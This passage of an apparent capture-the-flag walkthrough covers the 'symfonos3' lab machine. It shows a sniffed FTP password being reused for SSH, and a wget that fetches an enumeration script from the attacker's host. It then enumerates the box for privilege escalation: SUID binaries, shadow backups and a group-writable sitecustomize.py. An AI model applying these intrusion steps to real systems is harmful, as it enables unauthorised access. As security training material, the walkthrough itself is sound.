05:28:01.111985 IP localhost.ftp > localhost.53328: Flags [P.], seq 1:56, ack 1, win 342, options [nop,nop,TS val 1505976 ecr 1505974], length 55: FTP: 220 ProFTPD 1.3.5b Server (Debian) [::ffff:127.0.0.1]
05:28:01.112056 IP localhost.53328 > localhost.ftp: Flags [.], ack 56, win 342, options [nop,nop,TS val 1505976 ecr 1505976], length 0
05:28:01.112085 IP localhost.53328 > localhost.ftp: Flags [P.], seq 1:13, ack 56, win 342, options [nop,nop,TS val 1505976 ecr 1505976], length 12: FTP: USER hades
05:28:01.112105 IP localhost.ftp > localhost.53328: Flags [.], ack 13, win 342, options [nop,nop,TS val 1505976 ecr 1505976], length 0
05:28:01.112561 IP localhost.ftp > localhost.53328: Flags [P.], seq 56:89, ack 13, win 342, options [nop,nop,TS val 1505976 ecr 1505976], length 33: FTP: 331 Password required for hades
05:28:01.112625 IP localhost.53328 > localhost.ftp: Flags [P.], seq 13:36, ack 89, win 342, options [nop,nop,TS val 1505976 ecr 1505976], length 23: FTP: PASS PTpZTfU4vxgzvRBE
05:28:01.119775 IP localhost.ftp > localhost.53328: Flags [P.], seq 89:115, ack 36, win 342, options [nop,nop,TS val 1505977 ecr 1505976], length 26: FTP: 230 User hades logged in
05:28:01.119829 IP localhost.53328 > localhost.ftp: Flags [P.], seq 36:51, ack 115, win 342, options [nop,nop,TS val 1505977 ecr 1505977], length 15: FTP: CWD /srv/ftp/
05:28:01.120087 IP localhost.ftp > localhost.53328: Flags [P.], seq 115:143, ack 51, win 342, options [nop,nop,TS val 1505978 ecr 1505977], length 28: FTP: 250 CWD command successful
05:28:01.120978 IP localhost.53328 > localhost.ftp: Flags [F.], seq 51, ack 143, win 342, options [nop,nop,TS val 1505978 ecr 1505978], length 0
05:28:01.122325 IP localhost.ftp > localhost.53328: Flags [F.], seq 143, ack 52, win 342, options [nop,nop,TS val 1505979 ecr 1505978], length 0
05:28:01.122333 IP localhost.53328 > localhost.ftp: Flags [.], ack 144, win 342, options [nop,nop,TS val 1505979 ecr 1505979], length 0
^C

```



Credentials hades:PTpZTfU4vxgzvRBE

### Password reuse?

Yes.

## SSH as hades


```shell
ssh hades@$RHOST
hades@192.168.56.92's password:
Linux symfonos3 4.9.0-9-amd64 #1 SMP Debian 4.9.168-1+deb9u3 (2019-06-16) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
No mail.
Last login: Sat Jan  8 05:30:50 2022 from 192.168.56.70
hades@symfonos3:~$ id
uid=1000(hades) gid=1000(hades) groups=1000(hades),1002(gods)
hades@symfonos3:~$ whoami
hades
hades@symfonos3:~$ who
hades    pts/0        2022-01-08 05:30 (192.168.56.70)
hades@symfonos3:~$ hostname
symfonos3
hades@symfonos3:~$ date
Sat Jan  8 05:31:08 CST 2022
hades@symfonos3:~$ pwd
/home/hades
hades@symfonos3:~$ cd
hades@symfonos3:~$ ls -la
total 28
drwxr-xr-x 3 hades hades 4096 Apr  6  2020 .
drwxr-xr-x 4 root  root  4096 Jul 20  2019 ..
lrwxrwxrwx 1 root  root     9 Jul 20  2019 .bash_history -> /dev/null
-rw-r--r-- 1 hades hades  220 Jul 19  2019 .bash_logout
-rw-r--r-- 1 hades hades 3526 Jul 19  2019 .bashrc
drwxr-xr-x 2 hades hades 4096 Jul 20  2019 .nano
-rw-r--r-- 1 hades hades  675 Jul 19  2019 .profile
-rw-r--r-- 1 hades hades  165 Apr  6  2020 .wget-hsts
hades@symfonos3:~$ sudo -l
-bash: sudo: command not found
hades@symfonos3:~$ wget -q 192.168.56.70/lse.sh
hades@symfonos3:~$ ls -l lse.sh
-rw-r--r-- 1 hades hades 0 Jan  8 05:31 lse.sh
hades@symfonos3:~$ wget -v 192.168.56.70/lse.sh
--2022-01-08 05:32:00--  http://192.168.56.70/lse.sh
Connecting to 192.168.56.70:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 43570 (43K) [text/x-sh]
Saving to: ‘lse.sh.1’

lse.sh.1                        0%[                                               ]       0  --.-KB/s    in 0s


Cannot write to ‘lse.sh.1’ (No space left on device).
```

Still cannot write to disk.



```shell
hades@symfonos3:~$ groups
hades gods
```

### Find

#### recent files

```shell
hades@symfonos3:~$ find / -type f -not -path "/proc/*" -not -path "/sys/*" -and -mtime -1 -and -not -user root -exec ls -l "{}" \; 2>/dev/null
-rw-r--r-- 1 hades hades 0 Jan  8 05:31 /home/hades/lse.sh
-rw-r--r-- 1 hades hades 0 Jan  8 05:32 /home/hades/lse.sh.1
```

#### backups

```shell
hades@symfonos3:~$ find / -type f -name "*bak" -exec ls -lh "{}" \; 2>/dev/null
-rw------- 1 root root 748 Apr  6  2020 /var/backups/group.bak
-rw------- 1 root shadow 1.2K Apr  6  2020 /var/backups/shadow.bak
-rw------- 1 root shadow 624 Apr  6  2020 /var/backups/gshadow.bak
-rw------- 1 root root 1.6K Jul 20  2019 /var/backups/passwd.bak

hades@symfonos3:~$ find / -type f -name "*backup*" -exec ls -lh "{}" \; 2>/dev/null
-rw-r--r-- 1 root root 7.8K Jun 16  2019 /lib/modules/4.9.0-9-amd64/kernel/drivers/net/team/team_mode_activebackup.ko

hades@symfonos3:~$ find / -type d -name "*backup*" -exec ls -lh "{}" \; 2>/dev/null
total 556K
-rw-r--r-- 1 root root    40K Jan  6 06:25 alternatives.tar.0
-rw-r--r-- 1 root root    16K Jul 20  2019 apt.extended_states.0
-rw-r--r-- 1 root root    280 Jul 19  2019 dpkg.diversions.0
-rw-r--r-- 1 root root    218 Jul 20  2019 dpkg.statoverride.0
-rw-r--r-- 1 root root   474K Apr  6  2020 dpkg.status.0
-rw------- 1 root root    748 Apr  6  2020 group.bak
-rw------- 1 root shadow  624 Apr  6  2020 gshadow.bak
-rw------- 1 root root   1.6K Jul 20  2019 passwd.bak
-rw------- 1 root shadow 1.2K Apr  6  2020 shadow.bak
```

#### database

```shell
hades@symfonos3:~$ find / -type f -name "database" -exec ls -lh "{}" \; 2>/dev/null
-rw-r--r-- 1 root root 117K Jul 19  2019 /var/lib/systemd/catalog/database

hades@symfonos3:~$ find / -type d -name "*database*" -exec ls -lh "{}" \; 2>/dev/null
total 8.0K
-rw-r--r-- 1 root root 2.2K May 12  2017 changelog.Debian.gz
-rw-r--r-- 1 root root 1.8K May 12  2017 copyright
```

#### SGID and SUID

```shell
hades@symfonos3:~$ find / -type f -perm -2000 -exec ls -lh "{}" \; 2>/dev/null
-rwxr-sr-x 1 root shadow 35K May 27  2017 /sbin/unix_chkpwd
-rwxr-sr-x 1 root mail 19K Jan 17  2017 /usr/bin/dotlockfile
-rwxr-sr-x 1 root shadow 71K May 17  2017 /usr/bin/chage
-rwxr-sr-x 1 root ssh 351K Mar  1  2019 /usr/bin/ssh-agent
-rwxr-sr-x 1 root crontab 40K Oct  7  2017 /usr/bin/crontab
-rwxr-sr-x 1 root tty 15K Apr 12  2017 /usr/bin/bsd-write
-rwxr-sr-x 1 root shadow 23K May 17  2017 /usr/bin/expiry
-rwxr-sr-x 1 root tty 27K Mar  7  2018 /usr/bin/wall
-rwxr-sr-x 1 root mail 11K Nov 23  2016 /usr/bin/mlock

hades@symfonos3:~$ find / -type f -perm -4000 -exec ls -lh "{}" \; 2>/dev/null
-rwsr-xr-x 1 root root 996K Sep  3  2019 /usr/sbin/exim4
-rwsr-xr-x 1 root root 40K May 17  2017 /usr/bin/newgrp
-rwsr-xr-x 1 root root 40K May 17  2017 /usr/bin/chsh
-rwsr-xr-x 1 root root 23K Dec  6  2018 /usr/bin/pkexec
-rwsr-xr-x 1 root root 49K May 17  2017 /usr/bin/chfn
-rwsr-xr-x 1 root root 75K May 17  2017 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 59K May 17  2017 /usr/bin/passwd
-rwsr-xr-x 1 root root 10K Mar 27  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 15K Dec  6  2018 /usr/lib/policykit-1/polkit-agent-helper-1
-rwsr-xr-- 1 root messagebus 42K Jun  9  2019 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 431K Mar  1  2019 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 31K Mar  7  2018 /bin/umount
-rwsr-xr-x 1 root root 44K Mar  7  2018 /bin/mount
-rwsr-xr-x 1 root root 60K Nov 10  2016 /bin/ping
-rwsr-xr-x 1 root root 40K May 17  2017 /bin/su

```

#### writable

```shell
hades@symfonos3:~$ find / -writable -not -path "/proc/*" -not -path "/run/*" -not -path "/snap/*" -not -path "/dev/*" -not -path "/usr/lib/*" -not -path "/var/www/html/*" -not -path "/sys/*"  -not -path "/lib/*" 2>/dev/null
/srv/ftp
/srv/ftp/statuscheck.txt
/usr/bin/pdb2.7
/usr/bin/pdb
/etc/python2.7/sitecustomize.py
/var/lock
/var/mail/hades
/var/lib/php/sessions
/var/tmp
/home/hades
/home/hades/.bashrc
/home/hades/.profile
/home/hades/lse.sh
/home/hades/lse.sh.1
/home/hades/.bash_logout
/home/hades/.bash_history
/home/hades/.wget-hsts
/home/hades/.nano
/home/cerberus/.bash_history
/tmp
/tmp/.XIM-unix
/tmp/.font-unix
/tmp/.ICE-unix
/tmp/.Test-unix
/tmp/.X11-unix

```

```shell
hades@symfonos3:~$ find / -writable -group gods -not -path "/proc/*" -not -path "/run/*" -not -path "/snap/*" -not -path "/dev/*" -not -path "/usr/lib/*" -not -path "/var/www/html/*" -not -path "/sys/*"  -not -path "/lib/*" 2>/dev/null
/etc/python2.7/sitecustomize.py
```

### /etc/python2.7/sitecustomize.py

```shell
hades@symfonos3:~$ ls -lh /etc/python2.7/sitecustomize.py
-rwxrw-r-- 1 root gods 155 Sep 26  2018 /etc/python2.7/sitecustomize.py
```

```python
# install the apport exception handler if available
try:
    import apport_python_hook
except ImportError:
    pass
else:
    apport_python_hook.install()
```



There is only one file in whole directory.

```shell
hades@symfonos3:~$ ls -lAh /etc/python2.7
total 4.0K
-rwxrw-r-- 1 root gods 155 Sep 26  2018 sitecustomize.py

```

### processes

```shell
hades@symfonos3:~$ ps -ef
UID        PID  PPID  C STIME TTY          TIME CMD
root         1     0  0 03:42 ?        00:00:00 /sbin/init
root         2     0  0 03:42 ?        00:00:00 [kthreadd]
root         3     2  0 03:42 ?        00:00:09 [ksoftirqd/0]
root         5     2  0 03:42 ?        00:00:00 [kworker/0:0H]
root         7     2  0 03:42 ?        00:00:02 [rcu_sched]
root         8     2  0 03:42 ?        00:00:00 [rcu_bh]
root         9     2  0 03:42 ?        00:00:00 [migration/0]
root        10     2  0 03:42 ?        00:00:00 [lru-add-drain]
root        11     2  0 03:42 ?        00:00:00 [watchdog/0]
root        12     2  0 03:42 ?        00:00:00 [cpuhp/0]
root        13     2  0 03:42 ?        00:00:00 [kdevtmpfs]
root        14     2  0 03:42 ?        00:00:00 [netns]
root        15     2  0 03:42 ?        00:00:00 [khungtaskd]
root        16     2  0 03:42 ?        00:00:00 [oom_reaper]
root        17     2  0 03:42 ?        00:00:00 [writeback]
root        18     2  0 03:42 ?        00:00:00 [kcompactd0]
root        19     2  0 03:42 ?        00:00:00 [ksmd]
root        21     2  0 03:42 ?        00:00:00 [khugepaged]
root        22     2  0 03:42 ?        00:00:00 [crypto]
root        23     2  0 03:42 ?        00:00:00 [kintegrityd]
root        24     2  0 03:42 ?        00:00:00 [bioset]
root        25     2  0 03:42 ?        00:00:00 [kblockd]
root        26     2  0 03:42 ?        00:00:00 [devfreq_wq]
root        27     2  0 03:42 ?        00:00:00 [watchdogd]
root        28     2  0 03:42 ?        00:00:00 [kswapd0]
root        29     2  0 03:42 ?        00:00:00 [vmstat]
root        41     2  0 03:42 ?        00:00:00 [kthrotld]
root        42     2  0 03:42 ?        00:00:00 [ipv6_addrconf]
root        75     2  0 03:42 ?        00:00:00 [ata_sff]
root        83     2  0 03:42 ?        00:00:00 [kworker/u2:1]
root       103     2  0 03:42 ?        00:00:00 [scsi_eh_0]
root       104     2  0 03:42 ?        00:00:00 [scsi_tmf_0]
root       105     2  0 03:42 ?        00:00:00 [scsi_eh_1]
root       106     2  0 03:42 ?        00:00:00 [scsi_tmf_1]
root       108     2  0 03:42 ?        00:00:00 [mpt_poll_0]
root       109     2  0 03:42 ?        00:00:00 [mpt/0]
root       110     2  0 03:42 ?        00:00:00 [scsi_eh_2]
root       111     2  0 03:42 ?        00:00:00 [scsi_tmf_2]
root       112     2  0 03:42 ?        00:00:00 [bioset]
root       143     2  0 03:42 ?        00:00:00 [kworker/0:1H]
root       168     2  0 03:42 ?        00:00:00 [kworker/u3:0]
root       175     2  0 03:42 ?        00:00:00 [jbd2/sda1-8]
root       176     2  0 03:42 ?        00:00:00 [ext4-rsv-conver]
root       202     1  0 03:42 ?        00:00:00 /lib/systemd/systemd-journald
root       208     2  0 03:42 ?        00:00:00 [kauditd]
root       230     1  0 03:42 ?        00:00:00 /lib/systemd/systemd-udevd
root       258     2  0 03:42 ?        00:00:00 [ttm_swap]
systemd+   299     1  0 03:42 ?        00:00:01 /lib/systemd/systemd-timesyncd
root       327     1  0 03:42 ?        00:00:00 /usr/sbin/cron -f
root       328     1  0 03:42 ?        00:00:00 /lib/systemd/systemd-logind
root       329     1  0 03:42 ?        00:00:00 /usr/sbin/rsyslogd -n
message+   330     1  0 03:42 ?        00:00:00 /usr/bin/dbus-daemon --system --address=systemd: --nofork --nopidfile
root       392     1  0 03:42 tty1     00:00:00 /sbin/agetty --noclear tty1 linux
root       412     1  0 03:42 ?        00:00:00 /sbin/dhclient -nw
root       448     1  0 03:42 ?        00:00:00 /usr/sbin/sshd -D
root       519     1  0 03:42 ?        00:00:00 /usr/sbin/apache2 -k start
hades      589     1  0 03:42 ?        00:00:00 proftpd: (accepting connections)
root       661     1  0 03:42 ?        00:00:01 /usr/bin/python3 /usr/bin/fail2ban-server -s /var/run/fail2ban/fail2b
root      7659     2  0 04:39 ?        00:00:00 [kworker/0:2]
cerberus  9696   519  0 05:06 ?        00:00:00 /usr/sbin/apache2 -k start
cerberus  9698   519  0 05:06 ?        00:00:00 /usr/sbin/apache2 -k start
cerberus  9699   519  0 05:06 ?        00:00:00 /usr/sbin/apache2 -k start
cerberus  9701   519  0 05:06 ?        00:00:00 /usr/sbin/apache2 -k start
cerberus  9702   519  0 05:06 ?        00:00:00 /usr/sbin/apache2 -k start
cerberus  9703   519  0 05:06 ?        00:00:00 /usr/sbin/apache2 -k start
cerberus  9704   519  0 05:06 ?        00:00:00 /usr/sbin/apache2 -k start
cerberus  9705   519  0 05:06 ?        00:00:00 /usr/sbin/apache2 -k start
cerberus  9706   519  0 05:06 ?        00:00:00 /usr/sbin/apache2 -k start
cerberus  9707   519  0 05:06 ?        00:00:00 /usr/sbin/apache2 -k start
root     10048   448  0 05:30 ?        00:00:00 sshd: hades [priv]
hades    10050     1  0 05:30 ?        00:00:00 /lib/systemd/systemd --user
hades    10051 10050  0 05:30 ?        00:00:00 (sd-pam)
hades    10057 10048  0 05:30 ?        00:00:00 sshd: hades@pts/0
hades    10058 10057  0 05:30 pts/0    00:00:00 -bash
root     10119     2  0 05:35 ?        00:00:00 [kworker/u2:0]
root     10237     2  0 05:39 ?        00:00:00 [kworker/0:1]
hades    10315 10058  0 05:48 pts/0    00:00:00 ps -ef
hades@symfonos3:~$ ps -ef | grep ftp
hades      589     1  0 03:42 ?        00:00:00 proftpd: (accepting connections)
hades    10320 10058  0 05:49 pts/0    00:00:00 grep ftp
hades@symfonos3:~$ ps -ef | grep ssh
root       448     1  0 03:42 ?        00:00:00 /usr/sbin/sshd -D
root     10048   448  0 05:30 ?        00:00:00 sshd: hades [priv]
hades    10057 10048  0 05:30 ?        00:00:00 sshd: hades@pts/0
hades    10322 10058  0 05:49 pts/0    00:00:00 grep ssh
hades@symfonos3:~$ ps -ef | grep httpd
hades    10325 10058  0 05:49 pts/0    00:00:00 grep httpd
hades@symfonos3:~$ ps -ef | grep apache
root       519     1  0 03:42 ?        00:00:00 /usr/sbin/apache2 -k start
cerberus  9696   519  0 05:06 ?        00:00:00 /usr/sbin/apache2 -k start
cerberus  9698   519  0 05:06 ?        00:00:00 /usr/sbin/apache2 -k start
cerberus  9699   519  0 05:06 ?        00:00:00 /usr/sbin/apache2 -k start
cerberus  9701   519  0 05:06 ?        00:00:00 /usr/sbin/apache2 -k start
cerberus  9702   519  0 05:06 ?        00:00:00 /usr/sbin/apache2 -k start
cerberus  9703   519  0 05:06 ?        00:00:00 /usr/sbin/apache2 -k start
cerberus  9704   519  0 05:06 ?        00:00:00 /usr/sbin/apache2 -k start
cerberus  9705   519  0 05:06 ?        00:00:00 /usr/sbin/apache2 -k start
cerberus  9706   519  0 05:06 ?        00:00:00 /usr/sbin/apache2 -k start
cerberus  9707   519  0 05:06 ?        00:00:00 /usr/sbin/apache2 -k start
hades    10327 10058  0 05:49 pts/0    00:00:00 grep apache
hades@symfonos3:~$ ps -ef | grep python
root       661     1  0 03:42 ?        00:00:01 /usr/bin/python3 /usr/bin/fail2ban-server -s /var/run/fail2ban/fail2ban.sock -p /var/run/fail2ban/fail2ban.pid -x -b
hades    10329 10058  0 05:49 pts/0    00:00:00 grep python
hades@symfonos3:~$ ps -ef | grep py
root       661     1  0 03:42 ?        00:00:01 /usr/bin/python3 /usr/bin/fail2ban-server -s /var/run/fail2ban/fail2ban.sock -p /var/run/fail2ban/fail2ban.pid -x -b
hades    10331 10058  0 05:49 pts/0    00:00:00 grep py
hades@symfonos3:~$ ps aux
USER       PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root         1  0.0  0.1 138768  6716 ?        Ss   03:42   0:00 /sbin/init
root         2  0.0  0.0      0     0 ?        S    03:42   0:00 [kthreadd]
root         3  0.1  0.0      0     0 ?        S    03:42   0:09 [ksoftirqd/0]
root         5  0.0  0.0      0     0 ?        S<   03:42   0:00 [kworker/0:0H]
root         7  0.0  0.0      0     0 ?        S    03:42   0:02 [rcu_sched]
root         8  0.0  0.0      0     0 ?        S    03:42   0:00 [rcu_bh]
root         9  0.0  0.0      0     0 ?        S    03:42   0:00 [migration/0]
root        10  0.0  0.0      0     0 ?        S<   03:42   0:00 [lru-add-drain]
root        11  0.0  0.0      0     0 ?        S    03:42   0:00 [watchdog/0]
root        12  0.0  0.0      0     0 ?        S    03:42   0:00 [cpuhp/0]
root        13  0.0  0.0      0     0 ?        S    03:42   0:00 [kdevtmpfs]
root        14  0.0  0.0      0     0 ?        S<   03:42   0:00 [netns]
root        15  0.0  0.0      0     0 ?        S    03:42   0:00 [khungtaskd]
root        16  0.0  0.0      0     0 ?        S    03:42   0:00 [oom_reaper]
root        17  0.0  0.0      0     0 ?        S<   03:42   0:00 [writeback]
root        18  0.0  0.0      0     0 ?        S    03:42   0:00 [kcompactd0]
root        19  0.0  0.0      0     0 ?        SN   03:42   0:00 [ksmd]
root        21  0.0  0.0      0     0 ?        SN   03:42   0:00 [khugepaged]
root        22  0.0  0.0      0     0 ?        S<   03:42   0:00 [crypto]
root        23  0.0  0.0      0     0 ?        S<   03:42   0:00 [kintegrityd]
root        24  0.0  0.0      0     0 ?        S<   03:42   0:00 [bioset]
root        25  0.0  0.0      0     0 ?        S<   03:42   0:00 [kblockd]
root        26  0.0  0.0      0     0 ?        S<   03:42   0:00 [devfreq_wq]
root        27  0.0  0.0      0     0 ?        S<   03:42   0:00 [watchdogd]
root        28  0.0  0.0      0     0 ?        S    03:42   0:00 [kswapd0]
root        29  0.0  0.0      0     0 ?        S<   03:42   0:00 [vmstat]
root        41  0.0  0.0      0     0 ?        S<   03:42   0:00 [kthrotld]
root        42  0.0  0.0      0     0 ?        S<   03:42   0:00 [ipv6_addrconf]
root        75  0.0  0.0      0     0 ?        S<   03:42   0:00 [ata_sff]
root        83  0.0  0.0      0     0 ?        S    03:42   0:00 [kworker/u2:1]
root       103  0.0  0.0      0     0 ?        S    03:42   0:00 [scsi_eh_0]
root       104  0.0  0.0      0     0 ?        S<   03:42   0:00 [scsi_tmf_0]
root       105  0.0  0.0      0     0 ?        S    03:42   0:00 [scsi_eh_1]
root       106  0.0  0.0      0     0 ?        S<   03:42   0:00 [scsi_tmf_1]
root       108  0.0  0.0      0     0 ?        S<   03:42   0:00 [mpt_poll_0]
root       109  0.0  0.0      0     0 ?        S<   03:42   0:00 [mpt/0]
root       110  0.0  0.0      0     0 ?        S    03:42   0:00 [scsi_eh_2]
root       111  0.0  0.0      0     0 ?        S<   03:42   0:00 [scsi_tmf_2]
root       112  0.0  0.0      0     0 ?        S<   03:42   0:00 [bioset]
root       143  0.0  0.0      0     0 ?        S<   03:42   0:00 [kworker/0:1H]
root       168  0.0  0.0      0     0 ?        S<   03:42   0:00 [kworker/u3:0]
root       175  0.0  0.0      0     0 ?        S    03:42   0:00 [jbd2/sda1-8]
root       176  0.0  0.0      0     0 ?        S<   03:42   0:00 [ext4-rsv-conver]
root       202  0.0  0.1  42964  5384 ?        Ss   03:42   0:00 /lib/systemd/systemd-journald
root       208  0.0  0.0      0     0 ?        S    03:42   0:00 [kauditd]
root       230  0.0  0.0  45920  3944 ?        Ss   03:42   0:00 /lib/systemd/systemd-udevd
root       258  0.0  0.0      0     0 ?        S<   03:42   0:00 [ttm_swap]
systemd+   299  0.0  0.1 127284  4072 ?        Ssl  03:42   0:01 /lib/systemd/systemd-timesyncd
root       327  0.0  0.0  29664  2864 ?        Ss   03:42   0:00 /usr/sbin/cron -f
root       328  0.0  0.1  46532  4720 ?        Ss   03:42   0:00 /lib/systemd/systemd-logind
root       329  0.0  0.0 250112  3296 ?        Ssl  03:42   0:00 /usr/sbin/rsyslogd -n
message+   330  0.0  0.0  45112  3700 ?        Ss   03:42   0:00 /usr/bin/dbus-daemon --system --address=systemd: --n
root       392  0.0  0.0  14524  1724 tty1     Ss+  03:42   0:00 /sbin/agetty --noclear tty1 linux
root       412  0.0  0.0  20480  3004 ?        Ss   03:42   0:00 /sbin/dhclient -nw
root       448  0.0  0.1  69956  6260 ?        Ss   03:42   0:00 /usr/sbin/sshd -D
root       519  0.0  1.1 489312 46860 ?        Ss   03:42   0:00 /usr/sbin/apache2 -k start
hades      589  0.0  0.1 124600  4356 ?        Ss   03:42   0:00 proftpd: (accepting connections)
root       661  0.0  0.4 294308 17324 ?        Sl   03:42   0:01 /usr/bin/python3 /usr/bin/fail2ban-server -s /var/ru
root      7659  0.0  0.0      0     0 ?        S    04:39   0:00 [kworker/0:2]
cerberus  9696  0.0  0.3 489392 13600 ?        S    05:06   0:00 /usr/sbin/apache2 -k start
cerberus  9698  0.0  0.3 489392 13600 ?        S    05:06   0:00 /usr/sbin/apache2 -k start
cerberus  9699  0.0  0.3 489392 13600 ?        S    05:06   0:00 /usr/sbin/apache2 -k start
cerberus  9701  0.0  0.3 489392 13600 ?        S    05:06   0:00 /usr/sbin/apache2 -k start
cerberus  9702  0.0  0.3 489392 13600 ?        S    05:06   0:00 /usr/sbin/apache2 -k start
cerberus  9703  0.0  0.3 489392 13600 ?        S    05:06   0:00 /usr/sbin/apache2 -k start
cerberus  9704  0.0  0.3 489392 13580 ?        S    05:06   0:00 /usr/sbin/apache2 -k start
cerberus  9705  0.0  0.3 489392 13580 ?        S    05:06   0:00 /usr/sbin/apache2 -k start
cerberus  9706  0.0  0.3 489392 13580 ?        S    05:06   0:00 /usr/sbin/apache2 -k start
cerberus  9707  0.0  0.3 489392 13592 ?        S    05:06   0:00 /usr/sbin/apache2 -k start
root     10048  0.0  0.1  99352  6768 ?        Ss   05:30   0:00 sshd: hades [priv]
hades    10050  0.0  0.1  64832  6364 ?        Ss   05:30   0:00 /lib/systemd/systemd --user
hades    10051  0.0  0.0 166352  1532 ?        S    05:30   0:00 (sd-pam)
hades    10057  0.0  0.0  99352  3908 ?        S    05:30   0:00 sshd: hades@pts/0
hades    10058  0.0  0.1  21008  4824 pts/0    Ss   05:30   0:00 -bash
root     10119  0.0  0.0      0     0 ?        S    05:35   0:00 [kworker/u2:0]
root     10237  0.0  0.0      0     0 ?        S    05:39   0:00 [kworker/0:1]
root     10323  0.0  0.0      0     0 ?        S    05:49   0:00 [kworker/u2:2]
hades    10332  0.0  0.0  38304  3308 pts/0    R+   05:49   0:00 ps aux
hades@symfonos3:~$

```

I don't see anything.

### /

```shell
hades@symfonos3:/$ ls -lt
total 76
drwxrwxrwt  9 root root  4096 Jan  8 05:51 tmp
dr-xr-xr-x 13 root root     0 Jan  8 05:50 sys
drwxr-xr-x 19 root root   680 Jan  8 05:30 run
drwxr-xr-x 17 root root  2900 Jan  8 05:27 dev
dr-xr-xr-x 89 root root     0 Jan  7 22:12 proc
drwx------  4 root root  4096 Apr  6  2020 root
drwxr-xr-x 88 root root  4096 Apr  6  2020 etc
drwxr-xr-x  3 root root  4096 Apr  6  2020 boot
drwxr-xr-x  2 root root  4096 Apr  6  2020 sbin
drwxr-xr-x  3 root root  4096 Jul 20  2019 opt
drwxr-xr-x  3 root root  4096 Jul 20  2019 srv
drwxr-xr-x  2 root root  4096 Jul 20  2019 bin
drwxr-xr-x  4 root root  4096 Jul 20  2019 home
drwxr-xr-x 12 root root  4096 Jul 19  2019 var
drwxr-xr-x 14 root root  4096 Jul 19  2019 lib
lrwxrwxrwx  1 root root    29 Jul 19  2019 initrd.img -> boot/initrd.img-4.9.0-9-amd64
lrwxrwxrwx  1 root root    29 Jul 19  2019 initrd.img.old -> boot/initrd.img-4.9.0-9-amd64
lrwxrwxrwx  1 root root    26 Jul 19  2019 vmlinuz -> boot/vmlinuz-4.9.0-9-amd64
lrwxrwxrwx  1 root root    26 Jul 19  2019 vmlinuz.old -> boot/vmlinuz-4.9.0-9-amd64
drwxr-xr-x  2 root root  4096 Jul 19  2019 lib64
drwxr-xr-x 10 root root  4096 Jul 19  2019 usr
drwxr-xr-x  2 root root  4096 Jul 19  2019 mnt
drwxr-xr-x  3 root root  4096 Jul 19  2019 media
drwx------  2 root root 16384 Jul 19  2019 lost+found

```

